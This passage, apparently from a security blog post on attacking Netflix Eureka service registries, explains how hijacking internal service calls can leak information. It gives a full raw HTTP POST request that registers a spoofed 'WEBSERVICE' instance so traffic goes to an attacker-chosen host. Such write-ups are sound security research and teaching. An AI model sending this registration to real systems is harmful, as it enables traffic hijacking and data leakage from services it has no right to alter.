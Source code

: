 ![xss](/assets/images/post/hacking-netflix-eureka/xss.png) 

We can do the same trick by hijacking internal services calls, leading to information leaking or even more critical vulnerabilities.

## How to Communicate with Eureka

### Just try this

```
POST /eureka/apps/WEBSERVICE HTTP/1.1
Accept: application/json, application/*+json
Accept-Encoding: gzip
Content-Type: application/json
User-Agent: Java/11.0.10
Host: 127.0.0.1:8088
Connection: keep-alive
Content-Length: 1015

{"instance":{"instanceId":"host.docker.internal:webservice:8082","app":"WEBSERVICE","appGroupName":null,"ipAddr":"192.168.2.1","sid":"na","homePageUrl":"http://host.docker.internal:8082/","statusPageUrl":"http://host.docker.internal:8082/actuator/info","healthCheckUrl":"http://host.docker.internal:8082/actuator/health","secureHealthCheckUrl":null,"vipAddress":"webservice","secureVipAddress":"webservice","countryId":1,"dataCenterInfo":{"@class":"com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo","name":"MyOwn"},"hostName":"host.docker.internal","status":"UP","overriddenStatus":"UNKNOWN","leaseInfo":{"renewalIntervalInSecs":30,"durationInSecs":90,"registrationTimestamp":0,"lastRenewalTimestamp":0,"evictionTimestamp":0,"serviceUpTimestamp":0},"isCoordinatingDiscoveryServer":false,"lastUpdatedTimestamp":1630906180645,"lastDirtyTimestamp":1630906182808,"actionType":null,"asgName":null,"port":{"$":8082,"@enabled":"true"},"securePort":{"$":443,"@enabled":"false"},"metadata":{"management.port":"8082"}}}
```